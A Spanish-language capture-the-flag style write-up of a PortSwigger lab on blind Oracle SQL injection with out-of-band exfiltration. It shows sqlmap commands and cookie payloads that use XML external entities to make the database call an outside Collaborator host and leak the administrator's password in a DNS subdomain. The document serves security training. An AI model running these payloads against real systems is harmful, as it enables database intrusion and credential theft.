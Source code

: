 ```yaml
---
title: "Blind SQL injection with out-of-band data exfiltration"
date: 2025-02-12 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Out Of Band)
  - Blind SQL injection with out-of-band data exfiltration
  - Oracle Database
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `Blind SQL Injection`, la aplicación utiliza una `cookie` de seguimiento para análisis y realiza una `consulta SQL` que incluye el valor de la cookie enviada. La `consulta SQL` se ejecuta de forma asíncrona y no afecta la respuesta de la aplicación. Sin embargo, puedes `desencadenar` interacciones `out-of-band` con un `dominio externo`. La `base` de `datos` contiene una `tabla` diferente llamada `users`, con columnas llamadas `username` y `password`. Hay que `explotar` la `Blind SQL Injection` para descubrir la `contraseña` del usuario `administrador` e `iniciar sesión` en su `cuenta`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-17/image_1.png)

Hay algunas `Out-of-Band SQL Injections` que no pueden ser detectadas o explotadas por `sqlmap`. En estas situaciones podemos `realizar` un `escaneo completo` con `Burpsuite` para `detectarlas`, para ello, debemos `capturar` la `petición` y pulsar `click derecho > Scan`

![](/assets/img/SQLI-Lab-17/image_2.png)

Posteriormente se nos `abrirá` esta `ventana`, en la cual debemos de `seleccionar` la opción `Crawl and audit`

![](/assets/img/SQLI-Lab-17/image_3.png)

Posteriormente deberemos `seleccionar` la `configuración` del `escaneo`. Recomendaría usar `Deep`, ya que, es el más `completo`. Una vez seleccionadas estas opciones `pulsamos` sobre `Scan`

![](/assets/img/SQLI-Lab-17/image_4.png)

Si nos dirigimos a `Dashboard` veremos que nos `detecta` la `inyección SQL`

![](/assets/img/SQLI-Lab-17/image_5.png)

Otra opción más específica es `escanear` los `insertion points`. Para ello, `enviamos` la `petición` al `Intruder` y `seleccionamos` los `insertion points` a `analizar`

![](/assets/img/SQLI-Lab-17/image_6.png)

Posteriormente pulsamos `click derecho > Scan defined insertion points > Open scan launcher`, seleccionamos `Audit selected items` y `pulsamos` sobre `Scan`

![](/assets/img/SQLI-Lab-17/image_7.png)

![](/assets/img/SQLI-Lab-17/image_8.png)

Si nos dirigimos a `Dashboard` veremos que también nos `detecta` la `inyección SQL`

![](/assets/img/SQLI-Lab-17/image_9.png)

También es posible detectar las `Out-of-Band SQL Injections` mediante `sqlmap`. Para ello, necesitamos `instalar` la `extensión` de `Burpsuite` llamada `SQLMAP DNS Collaborator`

![](/assets/img/SQLI-Lab-17/image_10.png)

Una vez instalada nos dirigimos a `Extensions > Installed` y pulsamos sobre el `nombre de la extensión`. Vemos que en la `primera línea` nos muestra un servidor `--dns-domain=gm6n1v54k2yapzbqc1di32ti59bzzo.oastify.com`, este es el que debemos usar al ejecutar `sqlmap`

![](/assets/img/SQLI-Lab-17/image_11.png)

Cada vez que queramos un `nuevo servidor` debemos `pulsar` sobre el `cuadro de texto` de la `extensión` para `desactivarla` y luego `pulsar nuevamente` para cargarla

![](/assets/img/SQLI-Lab-17/image_12.png)

Ejecutamos `sqlmap` con `sudo`

```
# sudo sqlmap -u https://0a8000ee030f0a7b80b708ab00fe001a.web-security-academy.net/ --risk=3 --level=5 --random-agent --batch --dbs --cookie="TrackingId=ltMxaizgXCdtiCXN*; session=ekfByIBkIPxRiuEoPiRItaXMNC3HwXSB" --dns-domain=gm6n1v54k2yapzbqc1di32ti59bzzo.oastify.com --dbms oracle
```

Si encuentra algo, se `mostrará` en el apartado de `Show in UI`

![](/assets/img/SQLI-Lab-17/image_13.png)

Como alternativa, podemos usar `sqlmapsh` [https://github.com/unlock-security/sqlmapsh.git](https://github.com/unlock-security/sqlmapsh.git). Se usaría de la misma forma que `sqlmap`, pero no es necesario proporcionar el parámetro `--dns-domain`, ya que lo hace internamente

```
# sudo sqlmapsh -u https://0a8000ee030f0a7b80b708ab00fe001a.web-security-academy.net --risk=3 --level=5 --random-agent --dbs --batch --cookie="TrackingId=ltMxaizgXCdtiCXN*; session=ekfByIBkIPxRiuEoPiRItaXMNC3HwXSB"
```

Este `laboratorio` no se puede resolver usando `sqlmap` o `sqlmapsh`. La única forma que hay de `identificar` la `inyección SQL` es `manualmente` o mediante el `escáner` de `Burpsuite`. Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`, probando los `payload` de [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). En este caso vamos a usar este `payload`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)-- - 
```

Antes de `enviar` la `petición` debemos hacer `click` en `Collaborator > Copy to clipboard`. El subdominio copiado lo `sustituimos` por el campo `BURP-COLLABORATOR-SUBDOMAIN`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/"> %remote;]>'),'/l') FROM dual)-- - ; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Una vez hecho esto debemos `urlencodear` el `payload` y `enviar` la `petición`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//ek2f0ugba257uzxtntvmsb5twk2bq2er.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Si nos dirigimos a la parte de `Collaborator` y pulsamos en `Poll now` nos llegarán las `peticiones` a nuestro servidor

![](/assets/img/SQLI-Lab-17/image_14.png)

Una vez `comprobada` la `vulnerabilidad` vamos a usar este `payload` para poder hacer consultas a la `base` de `datos`

```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Adaptamos el `payload` y lo `enviamos`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+username+from+users+where+username='administrator')||'.dyfeetuao1j68ybs1s9l6ajsajga44st.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

Si nos dirigimos a la parte de `Collaborator` y pulsamos en `Poll now`, vemos que como subdominio se está enviando el `output` de la `query`

![](/assets/img/SQLI-Lab-17/image_15.png)

`Enviamos` el siguiente `payload` para `obtener` la `contraseña` del usuario `administrador`

```
Cookie: TrackingId=3PXv4G829apHPMFP'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(select+password+from+users+where+username='administrator')||'.dyfeetuao1j68ybs1s9l6ajsajga44st.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual)--+-+; session=Wzj5q2TCt35NSwZENA7h1HRazosSb9fS
```

`Obtenemos` la `contraseña` del usuario `administrador`

![](/assets/img/SQLI-Lab-17/image_16.png)

Nos `logueamos` como usuario `administrador`

![](/assets/img/SQLI-Lab-17/image_17.png)
